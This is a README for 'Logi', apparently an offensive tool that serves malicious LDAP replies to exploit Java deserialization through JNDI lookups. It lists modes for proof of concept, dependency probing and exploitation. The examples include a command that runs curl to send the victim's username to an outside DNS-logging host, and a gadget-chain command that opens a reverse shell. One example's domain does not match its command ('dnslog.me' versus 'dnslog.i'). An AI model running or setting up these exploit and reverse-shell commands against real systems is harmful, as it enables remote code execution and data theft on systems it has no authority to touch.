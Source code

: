 # LOGI
Logi is a ldap server focusing on ldap deserialize recon and exploit.



## Get started
Download logi from release.
Use `-h` to show help.
```
$ ./logi -h
Logi is a ldap server focusing on ldap deserialize recon and exploit.

Usage:
  ./logi [flags]

Flags:
MODE CONFIG:
   -m, -mode int  1 for poc, 2 for probe, 3 for exploit

SERVE CONFIG:
   -i, -ip string    ip for binding (default "0.0.0.0")
   -p, -port string  port for binding (default "1389")

PROBE CONFIG:
   -d, -domain string     domain for dns lookup
   -w, -dictname string   wordlist name for probe, support: yso, jndi, mvn (default "yso")
   -wp, -dictpath string  wordlist path for probe

EXPLOIT CONFIG:
   -g, -gadget string   gadget for exploit, support: cb1v18, cb1v19
   -c, -command string  command for exploit
   -s, -shell string    reverse shell, e.g. 127.0.0.1:7777
```

## How it work
Logi hosts a ldap service, waiting for ldap lookup
- poc mode: reply a urldns gadget points to `domain` for deserialize 
- probe mode: reply different probe gadgets points to `probename.domain` in turn for dependency probe
- exploit mode: reply a gadget for command execute

## Examples
Run poc mode with dns domain `dnslog.me`.
You need to send a ldap lookup to logi.
```
./logi -m 1 -d dnslog.me
```
Run probe mode with dns domain `dnslog.me` with embed wordlist `yso`.
You need to request many times to traverse the wordlist.
```
./logi -m 2 -d dnslog.me -w yso
```
Run probe mode with dns domain `dnslog.me` with custom wordlist in `./dict.txt`.
One class name per line.
```
./logi -m 2 -d dnslog.me -wp ./dict.txt
```
Run exploit mode with gadget `cb1v18`  with command `curl ${whoami}.dnslog.me`
```
./logi -m 3 -g cb1v18 -c 'curl ${whoami}.dnslog.i'
```
Run exploit mode with gadget `cb1v18` with reverse shell to `127.0.0.1:7777`
```
./logi -m 3 -g cb1v18 -s '127.0.0.1:7777'
```
## See also
https://github.com/BishopFox/GadgetProbe\
https://github.com/exp1orer/JNDI-Inject-Exploit